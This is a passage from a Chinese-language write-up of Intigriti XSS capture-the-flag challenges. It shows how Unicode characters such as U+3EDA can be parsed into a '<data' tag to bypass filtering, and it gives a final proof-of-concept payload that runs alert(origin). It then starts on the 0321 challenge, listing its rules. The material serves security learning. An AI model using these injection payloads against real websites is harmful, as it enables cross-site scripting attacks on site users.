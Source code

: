 ```
∢㺪㲪input%20id=result㺪㲪input%20id=result%20name=questionAnswer%20value=alert(1)㺪&amp;autosubmit
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01257e3cc9898d387f.png)

但payload并没有成功执行，原因是`㲪(U+3EAA)input` 形成了`&lt;aainput`这一无效标签。由于页面对Unicode字符的解析，必然导致最后两位字符一直存在，无法去除。所以需要对这两位字符进行利用。思路是构造`(后两位字符)+(某个字符串)`的一个有效的标签，且允许含有`value`属性。

通过对html 标签进行研究，最终找到`&lt;data&gt;`标签满足需求：

[![](https://p5.ssl.qhimg.com/t01820b4b0c956a5c54.png)](https://p5.ssl.qhimg.com/t01820b4b0c956a5c54.png)

### <a class="reference-link" name="POC"></a>POC

构造以`&lt;data&gt;`为基础的有效payload：

```
"&gt;
&lt;data id=result&gt;
&lt;data id=result name=questionAnswer value=alert(1)&gt;
```

需要的特殊Unicode字符为：

```
㳚 —— U+3EDA + 'ta'  ===&gt; &lt;da+'ta'  ===&gt;  &lt;data
```

最终payload为：

```
∢㺪㳚ta%20id=result㺪㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)㺪&amp;autosubmit
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010ddf87c3601173b2.png)



## 0x04 xss challenge 0321

地址： [https://challenge-0321.intigriti.io/](https://challenge-0321.intigriti.io/%EF%BC%8C%E8%A6%81%E6%B1%82%E5%A6%82%E4%B8%8B%EF%BC%9A)，有如下要求：
- 使用最新版的Firefox或者Chrome浏览器
- 通过`alert()`弹出 flag`{`THIS_IS_THE_FLAG`}`
- 利用此页面的xss漏洞
- 不允许self-XSS 和 MiTM 攻击
### <a class="reference-link" name="%E6%80%9D%E8%B7%AF%E5%88%86%E6%9E%90"></a>思路分析

查看网页源码，`view-source:https://challenge-0321.intigriti.io/`，无法访问：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0156d400baaf313934.png)
